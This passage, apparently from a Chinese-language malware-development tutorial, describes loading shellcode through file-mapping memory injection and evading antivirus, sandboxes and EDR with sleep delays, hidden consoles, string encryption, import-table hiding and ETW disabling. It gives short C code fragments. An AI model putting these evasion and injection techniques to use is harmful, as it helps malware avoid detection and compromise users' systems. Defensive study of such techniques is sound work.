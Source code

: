 ```
        if (i == cneed_alloc * lchunk_need_alloc) {
            break;
        }
    }
}
// 在base处分配rx空间，通过CreateRemoteThread启动
```

进程注入本就是一种可疑的行为，很容易被检测

##### 五 CreateFileMapping->MapViewOfFile映射

映射注入是一种内存注入技术，可以避免使用一些经典注入技术使用的API,如VirtualAllocEx,WriteProcessMemory等被杀毒软件严密监控的API，同时创建Mapping对象本质上属于申请一块物理内存，而申请的物理内存又能比较方便的通过系统函数直接映射到进程的虚拟内存里，这也就避免使用经典写入函数，增加了隐蔽性。

```
HANDLE hMapping = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, 0, sc_len, NULL);
LPVOID lpMapAddress = MapViewOfFile(hMapping, FILE_MAP_WRITE|FILE_EXECUTE, 0, 0, sc_len);
memcpy((PVOID)lpMapAddress, shellcode, sc_len);
```

将shellcode以映射的方式写入通过映射分配的rx的lpMapAddress处

#### 绕过

##### 一 Sleep

通过Sleep函数躲避沙箱检测

##### 二 隐藏控制台

```c
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")
```

##### 三对可疑的字符串加密

对请求外部的url，shellcode，可疑函数名称，进行加密，运行时解密来绕过静态查杀

##### 四 导入表混淆

可疑的Windows API会出现在IAT（导入地址表）中，直接调用dll中的函数绕过该检测

```c
typedef BOOL(WINAPI* pVirtualProtect)(LPVOID lpAddress, SIZE_T dwSize, DWORD  flNewProtect, PDWORD lpflOldProtect);// 声明一个函数指针变量
pVirtualProtect fnVirtualProtect;				//fnVirtualProtect指向dll中的VirtualProtect
HMODULE mMoudle = GetModuleHandle(TEXT("kernel32.dll"));	//获得dll句柄
fnVirtualProtect = (pVirtualProtect)GetProcAddress(mMoudle, "VirtualProtect");	//获取VirtualProtect函数地址
fnVirtualProtect(mem, 0x5000, PAGE_EXECUTE_READ, flOldProtect);
```

##### 五 禁用Windows事件跟踪 (ETW)

ETW允许对一个进程的功能和WINAPI调用进行广泛的检测和追踪，许多EDR解决方案广泛利用了Windows事件追踪（ETW）。
